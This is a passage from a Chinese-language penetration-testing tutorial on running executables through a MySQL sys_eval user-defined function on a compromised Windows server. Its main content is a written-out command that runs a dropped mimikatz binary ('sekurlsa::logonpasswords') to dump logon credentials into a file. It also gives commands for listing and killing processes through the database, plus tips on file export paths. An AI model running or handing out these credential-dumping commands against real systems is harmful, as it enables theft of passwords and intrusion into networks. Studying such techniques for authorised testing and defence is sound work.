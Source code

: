 ####  **1.1.2 执行**

这里落地了一个mimikat.exe，然后执行

  * 

    
    
    select sys_eval('C:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\M.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> C:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\res1.txt"')

![](https://gitee.com/fuli009/images/raw/master/public/20220422103712.png)

  

执行完毕后可以使用windows的more、type或者mysql的Load_file函数查看执行结果

![](https://gitee.com/fuli009/images/raw/master/public/20220422103715.png)  

####  **1.1.3 exe退出**

如果运行了一个exe程序，但是没有给他退出的命令或者是他自己不会终止退出。例如我直接运行mimikatz.exe没有给参数传入，那么他会在目标服务器直接弹一个黑窗，一直卡在这，直到程序被终结。

![](https://gitee.com/fuli009/images/raw/master/public/20220422103716.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220422103721.png)

  

这种情况可以在桌面手动关闭,也可以通过shell关闭。

  * 

    
    
    select sys_eval('tasklist /svc |findstr "进程名.exe"')

![]()

  

将结果进行16解码即可得到进程id,再Kill掉就好了。

![](https://gitee.com/fuli009/images/raw/master/public/20220422103722.png)

  

####  **1.1.4 注意点**

导出的文件，不能是已经存在的文件，否则会报错。

![](https://gitee.com/fuli009/images/raw/master/public/20220422103724.png)

  

导出路径中的"\"为两个，否则会转义。

![](https://gitee.com/fuli009/images/raw/master/public/20220422103725.png)

  

